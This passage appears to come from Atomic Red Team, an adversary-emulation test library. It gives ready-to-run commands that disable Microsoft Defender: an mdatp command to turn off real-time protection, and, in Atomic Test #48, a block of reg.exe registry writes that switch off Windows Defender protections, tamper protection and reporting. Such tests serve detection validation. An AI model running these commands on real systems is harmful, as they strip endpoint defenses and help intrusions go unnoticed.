 #### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
sudo mdatp config real-time-protection --value disabled
```

#### Cleanup Commands:

```sh
sudo mdatp config real-time-protection --value enabled
```

<br/>
<br/>

## Atomic Test #48 - Tamper with Windows Defender Registry - Reg.exe

Disable Windows Defender by tampering with windows defender registry using the utility "reg.exe"

**Supported Platforms:** Windows

**auto_generated_guid:** 1f6743da-6ecc-4a93-b03f-dc357e4b313f

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableBehaviorMonitoring" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableIntrusionPreventionSystem" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableIOAVProtection" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableOnAccessProtection" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRoutinelyTakingAction" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableScanOnRealtimeEnable" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableScriptScanning" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Reporting" /v "DisableEnhancedNotifications" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\SpyNet" /v "DisableBlockAtFirstSeen" /t REG_DWORD /d "1" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\SpyNet" /v "SpynetReporting" /t REG_DWORD /d "0" /f >NUL 2>nul
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\MpEngine" /v "MpEnablePus" /t REG_DWORD /d "0" /f >NUL 2>nul
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender Security Center\App and Browser protection" /v "DisallowExploitProtectionOverride" /t REG_DWORD /d "0" /f >NUL 2>nul
reg add "HKLM\SOFTWARE\Microsoft\Windows Defender\Features" /v "TamperProtection"  /t REG_DWORD /d "0" /f >NUL 2>nul
reg add "HKLM\software\microsoft\windows defender\spynet" /v "SubmitSamplesConsent" /t REG_DWORD /d "0" /f >NUL 2>nul
reg add "HKLM\Software\Microsoft\Windows Defender" /v "PUAProtection" /t REG_DWORD /d "0" /f >NUL 2>nul
```
